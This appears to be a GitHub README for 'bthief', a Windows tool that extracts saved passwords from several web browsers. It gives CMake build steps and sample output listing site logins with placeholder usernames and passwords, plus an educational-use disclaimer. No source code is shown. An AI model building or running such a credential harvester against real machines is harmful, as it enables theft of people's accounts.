 <div align="center">

# bthief

**A web browser credential thief for Windows.**

[![GitHub Workflow status](https://img.shields.io/github/actions/workflow/status/curlew/bthief/cmake.yml?logo=github&style=flat-square)](https://github.com/curlew/bthief/actions/workflows/cmake.yml)
[![Codacy grade](https://img.shields.io/codacy/grade/3b387ef9c9b842439e788913ad792943?logo=codacy&style=flat-square)](https://app.codacy.com/gh/curlew/bthief/dashboard)
[![Latest tag](https://img.shields.io/github/v/tag/curlew/bthief?color=informational&logo=github&style=flat-square)](https://github.com/curlew/bthief/tags)
[![License](https://img.shields.io/github/license/curlew/bthief?color=informational&style=flat-square)](https://github.com/curlew/bthief/blob/main/LICENSE)

</div>

## Overview

bthief is a web browser credential harvester for Windows, written in C++. It supports Chrome, Chromium, Opera, Brave, Edge, and Firefox.

## Building
**Requirements**: Visual C++ Build Tools and CMake must be installed.

```
cmake -B build
cmake --build build --config Release
```

## Usage
```
PS C:\Users\User\bthief> .\build\Release\bthief.exe
##############################  Chrome  ##############################

  - https://login.blockchain.com
    - Username: [someone@example.com]
    - Password: [Password123]
    - Created: 2022-02-21 17:26:10 UTC
    - Last used: 2022-02-21 17:26:07 UTC
    - Password last modified: 2022-02-21 17:26:10 UTC

  - https://www.dropbox.com/login
    - Username: [someone@example.com]
    - Password: [Passw0rd!]
    - Created: 2022-03-28 21:08:12 UTC
    - Last used: 2022-03-28 21:07:58 UTC
    - Password last modified: 2022-03-28 21:08:12 UTC

##############################  Opera  ##############################

  - https://www.netflix.com
    - Username: [someone@example.com]
    - Password: [123456]
    - Created: 2023-04-25 04:26:44 UTC
    - Last used: never
    - Password last modified: 2023-04-25 04:26:44 UTC

##############################  Firefox  ##############################

  - https://stackoverflow.com
    - Username: [someone@example.com]
    - Password: [qwerty123]
    - Created: 2023-03-21 19:33:54 UTC
    - Last used: 2023-03-21 19:33:54 UTC
    - Password last modified: 2023-03-21 19:33:54 UTC
```

## Disclaimer
bthief is intended for educational purposes only. Do not use it illegally.

## Acknowledgements

### Contributors
- [@zedek1](https://github.com/zedek1)

### Dependencies
(These are handled automatically by CMake)
- [Windows Implementation Libraries](https://github.com/microsoft/wil)
- [nlohmann/json](https://github.com/nlohmann/json)
- [SQLite](https://www.sqlite.org/index.html)
